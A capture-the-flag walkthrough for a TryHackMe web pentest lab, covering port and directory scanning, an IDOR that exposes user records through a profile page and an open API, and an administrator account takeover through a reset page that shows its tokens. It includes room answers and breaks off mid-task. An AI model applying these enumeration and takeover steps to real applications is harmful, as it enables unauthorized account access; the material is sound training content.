# Guided Pentest: Web

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information

```text
Type: Walkthrough
Difficulty: Easy
Tags: Web
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
Subscription type: Free
Description:
Learn web app pentesting by chaining vulnerabilities from recon to full server compromise.
```

Room link: [https://tryhackme.com/room/guidedpentestweb](https://tryhackme.com/room/guidedpentestweb)

## Solution

### Task 1: Introduction

Imagine you have been hired as a penetration tester. Your client runs a small web application called **RecruitX**, an internal recruitment portal where hiring managers post job listings, candidates submit applications, and administrators manage the entire workflow. The client suspects the application has security issues, but does not know where. Your job is to find out.

This room will guide you through a realistic web application penetration test from start to finish. You will not be dropped into a machine and told to "find the flags." Instead, each task walks you through a phase of the engagement, explaining what to do, why you are doing it, and what to look for. By the end, you will have moved from knowing nothing about the target to achieving remote code execution on the underlying server.

#### Learning Objectives

The engagement follows this path:

1. **Reconnaissance and enumeration** - Discover what the application exposes
2. **Insecure Direct Object Reference (IDOR)** - Access data belonging to other users
3. **Weak password reset** - Take over an account through a flawed reset mechanism
4. **Admin panel access** - Escalate from a regular user to an administrator
5. **Remote code execution** - Leverage admin functionality to execute commands on the server

Each vulnerability builds on the information gathered in the previous step. This is how real-world penetration tests work; you rarely find a single critical flaw sitting in the open. Instead, you chain smaller weaknesses together until they add up to something significant.

#### Prerequisites

- [Linux CLI Basics](https://tryhackme.com/room/linuxclibasics)
- [HTTP in Detail](https://tryhackme.com/room/httpindetail)
- [Web Application Basics](https://tryhackme.com/room/webapplicationbasics)

#### Connecting to the Machine

Click the **Start Machine** button, and the target machine will be accessible at `10.112.138.140`. The RecruitX application runs on port `80`. Give the machine two minutes to fully boot before beginning.

You will also need the AttackBox or your own machine connected to the TryHackMe VPN. If you are using the AttackBox, click **Start AttackBox** below to start it.

---------------------------------------------------------------------------

### Task 2: Reconnaissance and Enumeration

Before touching the application, let's understand what we are working with. In any penetration test, the first phase is always reconnaissance; gathering as much information about the target as possible without making assumptions. You would never walk into a building you are hired to assess without first looking at the exterior, checking the doors, and reading the signs. The same principle applies here.

#### Port Scanning

Let's start by discovering what services are running on the target. Open a terminal and run an Nmap scan:

```bash
root@tryhackme:~# nmap -sV -sC -p- 10.112.138.140
Starting Nmap 7.80 ( https://nmap.org ) at 2026-03-27 16:40 GMT
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 10.112.138.140
Host is up (0.00015s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.58 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: RecruitX \xE2\x80\x94 Home
3306/tcp open  mysql   MySQL (unauthorized)
8080/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 06:B2:88:D5:C7:67 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.54 seconds
```

We can notice four open ports. Port `22` is SSH, useful later if we obtain credentials. Port `80` is our target web application running on Apache. Port `3306` is MySQL, indicating the application uses a MySQL database on the backend and port `8080` showing Apache default page. This is valuable information; it means the application likely constructs SQL queries, and any input handling weaknesses could lead to SQL-related issues.

#### Exploring the Application

Open your browser and navigate to `http://10.112.138.140`. You should see the RecruitX landing page. Before clicking anything, take a moment to observe what is on the page. You will see a navigation bar with links to **Home**, **Jobs**, **Login**, and **Register**. There is also a footer that mentions "RecruitX v2.4."

Let's check the HTTP response headers as well:

```bash
root@tryhackme:~# curl -I http://10.112.138.140
HTTP/1.1 200 OK
Date: Fri, 27 Mar 2026 16:43:09 GMT
Server: Apache/2.4.58 (Ubuntu)
Set-Cookie: PHPSESSID=f05vg10cq16k3kq5vpurgpioqb; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Type: text/html; charset=UTF-8
```

The headers confirm the server is running Apache with version `2.4.58`. The `PHPSESSID` cookie confirms PHP session management is in use. We now know the technology stack: **Apache** + **PHP** + **MySQL** - a classic LAMP configuration.

#### Directory Enumeration

Now, let's discover what directories and files exist beyond what the navigation bar shows. We will use Gobuster with a common wordlist:

```bash
root@tryhackme:~# gobuster dir -u http://10.112.138.140 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php -x php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.112.138.140
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 277]
/index.php            (Status: 200) [Size: 21600]
/profile.php          (Status: 302) [Size: 0] 
/login.php            (Status: 200) [Size: 15107]
/jobs.php             (Status: 200) [Size: 20288]
/uploads              (Status: 301) [Size: 314] 
/data                 (Status: 403) [Size: 277]
/admin                (Status: 301) [Size: 312] 
/test                 (Status: 200) [Size: 705]
/includes             (Status: 301) [Size: 315]
/api                  (Status: 301) [Size: 310] 
/logout.php           (Status: 302) [Size: 0] 
/config               (Status: 301) [Size: 313] 
/dashboard.php        (Status: 302) [Size: 0] 
/register.php         (Status: 200) [Size: 17384]
/reset.php            (Status: 200) [Size: 14408]
/.php                 (Status: 403) [Size: 277]
Progress: 175328 / 175330 (100.00%)
===============================================================
Finished
===============================================================
```

This output tells us a great deal. Let's break down the important discoveries:

- `/admin` - An admin panel exists, but it redirects to the login page. We will need credentials to access it.
- `/api` - An API endpoint is present. APIs often expose data in ways the frontend does not.
- `/reset.php` - A password reset page. Reset mechanisms are frequently implemented insecurely.
- `/uploads` - An uploads directory. If we can upload files, this could be a path to code execution.
- `/profile.php` and `/dashboard.php` - These require authentication, so we need to be logged in to access them.

#### Registering an Account

Several pages require authentication. Let's log in using an account, so we can explore the application's features. Navigate to `http://10.112.138.140/login.php` and log in with the following details:

- **Email**: `testuser@fake.thm`
- **Password**: `Password123`

**Note**: You can register and use any other account by registering at `http://10.112.138.140/register.php`.

After logging in, the application redirects you to `/dashboard.php`. You now see a dashboard showing information like Open Positions, Total Applications or an option to Browse Jobs, etc. Take note of the URL as you click around, particularly when viewing your own profile.



#### Exploring the API

Earlier, Gobuster found an `/api` endpoint. Let's investigate what it exposes:

```bash
root@tryhackme:~# curl http://10.112.138.140/api/
{"endpoints":["\/api\/user","\/api\/jobs","\/api\/applications"]}
```

The API helpfully lists its own endpoints. This is already an information disclosure issue in a production application; an unauthenticated user should not be able to discover internal API routes. Let's keep these in mind as we move into the next task.

---------------------------------------------------------------------------

#### What version of the Apache server is running?

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/Guided_Pentest_Web]
└─$ export TARGET_IP=10.112.138.140

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/Guided_Pentest_Web]
└─$ curl -I http://$TARGET_IP                                                                                        
HTTP/1.1 200 OK
Date: Sat, 22 Aug 2026 13:53:56 GMT
Server: Apache/2.4.58 (Ubuntu)
Set-Cookie: PHPSESSID=fdnatruj6g6vgku4sehmcphe77; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Type: text/html; charset=UTF-8
```

Answer: `2.4.58`

#### What database service is running on the target?

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/Guided_Pentest_Web]
└─$ sudo nmap -sC -sV -p- $TARGET_IP
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-08-22 15:55 +0200
Nmap scan report for 10.112.138.140
Host is up (0.025s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7b:c1:01:ec:dc:2a:be:08:8e:b0:8e:2f:79:b5:47:7c (ECDSA)
|_  256 1a:46:3a:9d:1c:27:69:37:38:de:8c:01:e8:a7:a0:b0 (ED25519)
80/tcp   open  http    Apache httpd 2.4.58 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: RecruitX - Home
|_http-server-header: Apache/2.4.58 (Ubuntu)
3306/tcp open  mysql   MySQL (unauthorized)
8080/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.78 seconds
```

Answer: `MySQL`

#### What is the path to the password reset page?

Logout and check the link from `Forgot password?`



Answer: `/reset.php`

---------------------------------------------------------------------------

### Task 3: IDOR

Now that we have an authenticated session and know the application's structure, let's start looking for vulnerabilities. One of the most common and frequently overlooked flaws in web applications is **Insecure Direct Object Reference** (IDOR).

Consider this analogy: you are staying in a hotel, and your room key is simply your room number 104. There is no electronic lock, no verification, just the number. What stops you from walking to room 105 and opening the door? Nothing. That is essentially what an IDOR vulnerability is: the application uses a predictable identifier to reference objects (user profiles, documents, orders) and does not verify whether the requesting user is authorised to access that specific object.

#### Finding the IDOR

While logged in as your test user, navigate to your profile by clicking the button that’s showing your username at the top right in the dashboard (**Test** in this case). Look carefully at the URL in your browser's address bar:

```text
http://10.112.138.140/profile.php?id=6
```

The application references your profile using a numeric `id` parameter. Your account was the sixth one created, so your ID is `6`. The immediate question any penetration tester should ask is: What happens if I change that number?

#### Testing the Vulnerability

Let's change the `id` parameter to `1` and see what happens. You can do this directly in the browser or with `curl`. In the browser, accessing the URL `http://10.112.138.140/profile.php?id=1` would return this:



#### Extracting Cookies

In this exercise, you will require your session cookie, which you can get by right-clicking anywhere on the page and selecting Inspect, as shown below:



Go to the `Storage` tab, then expand `Cookies` and select `http://10.112.138.140`. You’ll see all cookies listed, look for the `PHPSESSID` cookie and copy its value.



Let's also use `curl` so we can see exactly what comes back. Make sure to include your session cookie in the following command after `PHPSESSID=` value:

```bash
root@tryhackme:~# curl -s -b "PHPSESSID=gs5ngd6duukc09agpdnj1o9tt2" "http://10.112.138.140/profile.php?id=1" | grep "fw-semibold"
                        <div class="fw-semibold mt-1">Sarah Mitchell</div>
                        <div class="fw-semibold mt-1 mono">s.mitchell@recruitx.thm</div>
                        <div class="fw-semibold mt-1">March 24, 2026</div>
```

We just accessed the profile of user ID 1, **Sarah Mitchell**, who is an administrator. The application did not verify whether we are authorised to view this profile. It simply took the `id` value, queried the database, and returned the result.

Let's also check whether the API endpoint we discovered earlier has the same issue, and if it doesn't even require a session cookie:

```bash
root@tryhackme:~# curl -s "http://10.112.138.140/api/user?id=1"
{"id":1,"name":"Sarah Mitchell","email":"s.mitchell@recruitx.thm","role":"administrator","created":"2026-03-24"}
root@tryhackme:~# curl -s "http://10.112.138.140/api/user?id=2"
{"id":2,"name":"James Crawford","email":"j.crawford@recruitx.thm","role":"hiring_manager","created":"2026-03-24"}
```

The API is even more revealing than the web page. It returns structured JSON with the user's name, email, role, and account creation date. By incrementing the `id` parameter from 1 through 5, we can enumerate every user in the system.

#### Why This Matters

IDOR vulnerabilities are consistently ranked among the most common web application flaws. They occur because developers assume users will access only their own resources, an assumption that breaks the moment someone changes a URL parameter. The fix is straightforward: the server must verify that the currently authenticated user has permission to access the requested object. But in practice, this check is frequently missing.

---------------------------------------------------------------------------

#### What is the name of the administrator user?

Browse to `http://10.112.138.140/profile.php?id=1` and check the information:



Answer: `Sarah Mitchell`

#### What role does James Crawford hold?

The answer can be found by browsing to `http://10.112.138.140/profile.php?id=2`:



Answer: `hiring_manager`

---------------------------------------------------------------------------

### Task 4: Weak Password Reset

We now know the administrator's email address: `s.mitchell@recruitx.thm`. Our next objective is to take over her account. Instead of trying to guess her password (which could take a long time and trigger account lockouts), let's examine the password reset mechanism. Password reset flows are one of the most commonly broken features in web applications because they are complex to implement securely, and developers often take shortcuts.

#### Understanding the Reset Flow

Navigate to `http://10.112.138.140/reset.php`. You will see a simple form asking for an email address. Let's first test the flow with our own account to understand how it works. Enter `testuser@fake.thm` and submit the form.

This is our first major finding. In a properly designed application, the reset token would be sent to the user's email and would never be displayed on screen. But this application shows the token directly in the response. While this alone would let us reset our own password, the real question is: How is the token being shared with the user?

#### Analysing the Token

Let's generate a few more tokens and look for patterns. Submit the reset form multiple times for your own account and record the tokens:

- Attempt 1: `784512`
- Attempt 2: `291037`
- Attempt 3: `503648`

The tokens are six-digit numbers. They appear random, but the range is limited; there is only one million possible values (000000 to 999999). This is a weak token space. However, brute-forcing a million values might be slow. Let's look more carefully and try to reset the token for the administrator using their email address `s.mitchell@recruitx.thm`. We will get the following:



#### Resetting the Administrator's Password

We now have everything we need. Let's use the token to reset Sarah Mitchell's password. Visit the reset URL, and it will ask for a new password:



Let's verify by logging in with the new password.



We are now logged in as the administrator. Let's take a moment to understand the chain so far: we used an IDOR to discover the administrator's email, then exploited a weak password reset mechanism that exposed tokens directly in the response. Neither vulnerability alone would have given us admin access, but chained together, they were devastating.

#### What Went Wrong

The password reset mechanism had three distinct flaws:

- **Token displayed in response**: The token should only be sent to the account owner's email, never displayed on screen.
- **Weak token generation** - A six-digit numeric token has a small keyspace and is susceptible to brute-force attacks.
- **No rate limiting** - The application did not limit the number of reset requests or token guesses.

---------------------------------------------------------------------------

#### How many digits long is the reset token?

Browse to `http://10.112.138.140/reset.php` and enter the account email.



Answer: `6`

#### After resetting the password for `s.mitchell@recruitx.thm` and logging in, what role is displayed for that account in the dashboard?

Browse to `http://10.112.138.140/reset.php` and enter the account email.

Change the password to whatever you like:



And then login with the new credentials:

